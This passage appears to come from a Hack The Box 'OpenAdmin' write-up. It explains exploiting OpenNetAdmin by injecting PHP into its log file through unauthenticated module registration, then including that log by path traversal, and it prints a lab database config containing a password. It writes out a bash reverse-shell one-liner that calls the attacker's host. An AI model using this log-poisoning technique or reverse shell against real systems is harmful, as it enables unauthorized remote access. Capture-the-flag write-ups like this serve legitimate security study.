 Simply, The exploit works because we can add modules without any type of authentication. Modules are in this form:

{% highlight console %}
module[name] = The name of the function that will be run out of the included file
module[description] = Irrelevant description of the module (unless some PHP code is injected here hmm?)
module[file] = The file to be included and then the function
{% endhighlight %}

We can inject some `PHP` code into `/var/log/ona.log` file via the module description parameter. Every time a module is added to **OpenNetAdmin** app the `description, name` are all logged into this log file.
By setting the module filepath to `../../../../../../../../../../../var/log/ona.log`, so we can include the log file as a module.

I tried to inject `bash -i >& /dev/tcp/10.10.15.253/1337 0>&1` as a reverse shell, but it didn't work because of the way the logger script works we cannot use any `<` or `>`. So, I tried to escape it using `\>`, but also didn't work. 

Lets write the above script into a `shell.sh` file and upload it into the box and wait for a shell:

{% include image.html path="documentation/hack-the-box/openadmin/exploit.jpg" path-detail="documentation/hack-the-box/openadmin/exploit.jpg" alt="OpenAdmin" %}

We got a shell with an old 0day exploit as `www-data`, now lets dive into privesc.

## 3. Privilege Escalation

First thing I though is to search for any interesting files, then I stuck a little until I found `mysql` database settings file inside `local/config` folder:

{% include image.html path="documentation/hack-the-box/openadmin/settings.jpg" path-detail="documentation/hack-the-box/openadmin/settings.jpg" alt="OpenAdmin" %}

The file contains database creds

{% highlight php %}
<?php
$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
?>
{% endhighlight %}
